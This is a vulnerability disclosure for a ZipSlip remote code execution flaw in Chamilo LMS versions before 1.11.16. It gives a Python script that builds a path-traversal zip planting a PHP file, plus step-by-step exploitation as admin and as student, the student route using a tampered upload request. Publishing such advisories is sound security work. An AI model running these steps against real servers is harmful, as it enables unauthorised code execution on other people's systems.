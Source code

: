 # Issue CVE-TBC

Chamilo LMS Authenticated RCE via malicious zip file upload (ZipSlip)

* Versions: Chamilo v1.11, Chamilo v1.10 and earlier
* CVE: Awaiting Assignment
* [Chamilo Issue Description and Resolution](https://support.chamilo.org/projects/chamilo-18/wiki/Security_issues#Issue-94-2022-09-06-High-impact-Moderate-risk-Authenticated-RCE-via-zipslip-attack-in-file-upload)

# Summary

Chamilo versions prior to v1.11.16 are vunerable to [ZipSlip vunerability](https://github.com/snyk/zip-slip-vulnerability) that can be exploited by crafting malicious zip file to gain RCE (Remote Code Execution). 

This issue can be exploited as both standard and administrative users although steps differ.

Reported to Chamilo 6th Sep 2022 via [Chamilo security issue reporting procedures](https://support.chamilo.org/projects/chamilo-18/wiki/Security_issues).

# Steps to reproduce

There are two main steps for this exploit:

* Create a malicious zip file
* Upload and trigger the extraction of the zip file as either user or admin

## Create a malicious zip file

First create a malicious zip file that will navigate two directories up using path transversal and place a PHP file with content you specify at this location.

The below Python3 script will create a zip file called badzip.zip that calls `phpinfo()` when accessed:

```
#!/usr/bin/python
import zipfile
z_info = zipfile.ZipInfo("../../info.php")
z_file = zipfile.ZipFile("badzip.zip", mode="w")
z_file.writestr(z_info, "<?php phpinfo();?>")
z_file.close()
```

The next steps differ depending on whether this is being done as a standard user or administrator (less steps).

## Admin RCE

1. Create a malicious zip file as above
1. Log-in as an administrative user
1. Create a new course or use an existing one
1. Go into the course
1. Go to documents
1. Select upload documents
1. Select Advanced Settings and ensure un-compress zip is selected (leave override file option on but dont think it matters)
1. Select the malicious zip file you created earlier
1. Click Upload File
1. The file will get uploaded and then extracted via the path to `/app` and can be accessed at `http://localhost/chamilo-1.11/app/info.php`

## User RCE

You will need a user login and to be assigned to at least one course with an assignment.

1. Create a malicious zip file as above
1. Log in as student user
1. Go to assignments
1. Select an assignment
1. Select Upload (Simple)
1. Give the item a title and select your malicious zip file
1. Next fire up a Proxy (e.g. Burp Community) as you'll need it to modify one of the requests before it is sent. Ensure you have the browser set to use the proxy if you have not already
1. Click upload
1. The proxy will capture the requests. 
1. Chamilo issues 3 requests to upload a file. 
1. Let the first 2 continue to Chamilo un-modified
1. On the 3rd and final request (the one that ends `action=finish` e.g. `/chamilo-1.11/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=finish`) we need to modify it so we can trick Chamilo into extracting the uploaded file even through extract functionality is not available in the UI for the student. To do this do the following:
* Change the origin parameter in the body to `document` 
* Add the following parameters: `unzip=1`, `if_exists=overwrite` and `curdirpath = "/"`
* Your final request body should look something like the following `key=3242343.tmp&name=badzip.zip&type=application/zip&size=182&origin=document&title=test&extension=&_qf__form-work=&contains_file=0&active=1&unzip=1&if_exists=overwrite&curdirpath=/&accepted=1&MAX_FILE_SIZE=2097152&id=1&sec_token=324234`
13. Send the modified request
14. The file will get uploaded and then extracted via the path to `/app` and can be accessed at `http://localhost/chamilo-1.11/app/info.php`

---------------------------------
Alex Mackey 6th Sep 2022
